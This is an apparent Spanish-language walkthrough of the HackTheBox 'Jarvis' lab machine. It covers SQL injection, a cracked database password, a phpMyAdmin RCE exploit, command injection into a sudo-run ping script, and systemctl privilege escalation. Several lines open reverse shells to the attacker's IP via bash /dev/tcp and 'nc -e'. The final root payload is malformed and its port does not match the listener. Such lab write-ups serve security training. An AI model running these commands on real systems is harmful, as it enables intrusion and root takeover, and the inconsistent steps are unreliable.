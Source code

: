 ```yaml
---
title: HackTheBox Jarvis
date: 2021-11-15 12:00:00 -0400
image: 
    path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/jarvis.png
    height: 1100
    width: 500
categories: [HTB Writeups, Linux Medium]
tags: [web, sqli, systmctl, rce]
---
```



**Machine IP**: 10.10.10.143


### Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
### Nmap 
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/nmap.png)

Como vemos tiene el puerto 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web.

### Wappalyzer
Usando la extensión wappalizer para identificar las tecnologías usadas en la web, encontramos que la web está usando phpmyadmin version 4.8

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/wappa.png)


Al hacer un poco de research encontramos la siguiente vulnerabilidad [phpMyAdmin 4.8.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50457) , que se aprovecha del ejecutar comandos a traves de parametros sql.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/exploitdb.png)

Este exploit nos pide parametros como contraseña y usuario, pero aun no los tenemos, así que debemos encontrar una forma de encontrar esos credenciales.

Haciendo inspección a la pagina encontré una vulnerabilidad de sql injection en la siguiente url `http://10.10.10.143/room.php?cod=6`

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/sql.png)

Usando la plataforma crackstation pude encontrar la contraseña

`MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou`


Con esto ya podemos hacer uso del exploit que encontramos en exploitdb con el usuario DBadmin y la password imissyou


```bash
python3 forest.py supersecurehotel.htb 80 /phpmyadmin DBadmin imissyou "bash -c 'bash -i >& /dev/tcp/10.10.17.58/6968 0>&1' 
```

Antes de ejecutar el exploit establecmos un listener con netcat por el puerto 6968

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/wwwdata.png)

Obtenemos una shell como www-data


### Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario www-data, buscamos que binarios puedes ser ejecutados como usuarios con privilegios.

```bash
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Vemos que se puede ejecutar el script simpler.py como el usuario pepeer.
Leyendo el script nos damos cuenta que ejecuta el comando ping usando la libreria os, esto se logra llamando a ping desde python, pero al hacer esto se pueden ejecutar otros comandos al final de este.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/ping.png)

Como vemos está validando que no se usen los caracteres especiales, pero para bypassear eso podemos crearnos un archivo y poner dentro nuestro comando para ejecutarnos una reverse shell, quedaría asi:

```

www-data@jarvis:/tmp$
www-data@jarvis:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.17.58 443' > /tmp/d.sh
www-data@jarvis:/tmp$ chmod +x /tmp/d.sh
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/tmp/d.sh)
```

Obtenemos una shell como el usuario pepper y obtenemos el user.txt

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/usertxt.png)

Para escalar privilegios abusé del servicio systemctl que encontré buscando binarios con permisos suid.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/find.png)

Systemctl es un servicio se define mediante un archivo. Se utiliza para vincularlo a este , y luego se utiliza de nuevo para iniciar el servicio. Lo que hace el servicio está definido por el archivo.. servicesystemctlsystemd.service

Para explotar este servicio solo seguí los pasos que nos dá la gpina gtfo bins

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/gtfo.png)

Modificaré eso ligeramente para darme una reverse shell como usuario root.

```bash
cat priv.sh
#!/bin/bash
nc -e 10.10.17.58 444

echo '[Service]                               
Type=oneshot
ExecStart=/home/pepper/priv.sh
[Install]
WantedBy=multi-user.target' > esc.service

systemctl link /home/pepper/esc.service
systemctl enable --now /home/pepper/esc.service
```

```bash
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.17.58.
Ncat: Connection from 10.10.17.58:37160.
id
uid=0(root) gid=0(root) groups=0(root)
```

**Game over!
Obtenemos acceso root y el root.txt.**

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/jarvis/roottxt.png)

